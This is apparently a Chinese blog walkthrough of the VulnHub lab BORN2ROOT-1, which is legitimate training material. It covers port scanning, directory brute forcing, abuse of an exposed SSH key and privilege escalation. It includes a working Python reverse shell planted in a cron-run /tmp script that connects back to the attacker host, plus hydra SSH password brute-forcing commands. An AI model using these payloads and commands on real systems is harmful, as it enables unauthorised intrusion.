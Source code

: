 ```yaml
---
layer: article
title: Vulnhub 197 BORN2ROOT-1
tags: pentest vulnhub Walkthrough
---
```


考点：id_rsa,hydra

靶机链接：<https://www.vulnhub.com/entry/born2root-1,197/>

## 环境配置

| 名称        | IP        |
| ----------- | --------- |
| Kali Linux  | 10.0.2.24 |
| BORN2ROOT-1 | 10.0.2.40 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.40
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 3d:6f:40:88:76:6a:1d:a1:fd:91:0f:dc:86:b7:81:13 (DSA)
|   2048 eb:29:c0:cb:eb:9a:0b:52:e7:9c:c4:a6:67:dc:33:e1 (RSA)
|   256 d4:02:99:b0:e7:7d:40:18:64:df:3b:28:5b:9e:f9:07 (ECDSA)
|_  256 e9:c4:0c:6d:4b:15:4a:58:4f:69:cd:df:13:76:32:4e (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/wordpress-blog /files
|_http-title:  Secretsec Company 
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42589/udp   status
|   100024  1          44269/udp6  status
|   100024  1          59185/tcp6  status
|_  100024  1          60456/tcp   status
60456/tcp open  status  1 (RPC #100024)

```

### WEB测试

#### 端口80

![1](https://static.iihack.com/vulnhub/197/1.jpg)

获得用户名三个 `martin hadi jimmy`

访问robots.txt获得两个目录

![2](https://static.iihack.com/vulnhub/197/2.jpg)

两个目录都无有用信息

```bash
$ gobuster dir --url http://10.0.2.40 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x .php 
```

![3](https://static.iihack.com/vulnhub/197/3.jpg)

访问`icons`目录发现目录可访问

![4](https://static.iihack.com/vulnhub/197/4.jpg)

发现ssh登录认证密钥

![5](https://static.iihack.com/vulnhub/197/5.jpg)

## 获得权限

### martin

![6](https://static.iihack.com/vulnhub/197/6.jpg)

这就尴尬了，查一下这个异常报错是因为DSA密钥的问题，可以[修改配置文件](https://www.cnblogs.com/fly2wind/p/15640719.html) 或者ssh登录时加参数 `-o PubkeyAcceptedKeyTypes=+ssh-rsa`

![7](https://static.iihack.com/vulnhub/197/7.jpg)

咋的，还得输入密码，目测是`.bashrc` 加了登录启动脚本，回车一下绕过了，还是看看这个脚本

![8](https://static.iihack.com/vulnhub/197/8.jpg)

下载文件发现`wget`和`curl`都不能用

还是修改`.ssh/config`添加`PubkeyAcceptedKeyTypes +ssh-rsa`

![9](https://static.iihack.com/vulnhub/197/9.jpg)

通过sftp上传`linpeas.sh`和`pspy`

### jinmy

通过`linpeas.sh`发现

![10](https://static.iihack.com/vulnhub/197/10.jpg)

`jimmy`权限每隔五分钟运行`/tmp/sekurity.py`去/tmp目录发现文件不存在，那就新建文件反弹shell了

新建文件`/tmp/sekurity.py` 内容为

```python
import sys, socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.0.2.24', 444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```

过了几分钟收到反弹shell

![11](https://static.iihack.com/vulnhub/197/11.jpg)

### hadi

```
$ cewl -w pass http://10.0.2.40/

```

看了看，把`martin hadi jimmy`也加到pass里

使用john生成增强字典

```
$ john --wordlist=pass --rules=best64 --stdout >pass2
```

使用hydra爆破用户`hadi`的密码

```
$ hydra -l hadi   -P pass2  -f 10.0.2.40 ssh
```

![12](https://static.iihack.com/vulnhub/197/12.jpg)

## 提权

登录上去发现文件`.gdb_history`应该是直接可以获得root权限

![13](https://static.iihack.com/vulnhub/197/13.jpg)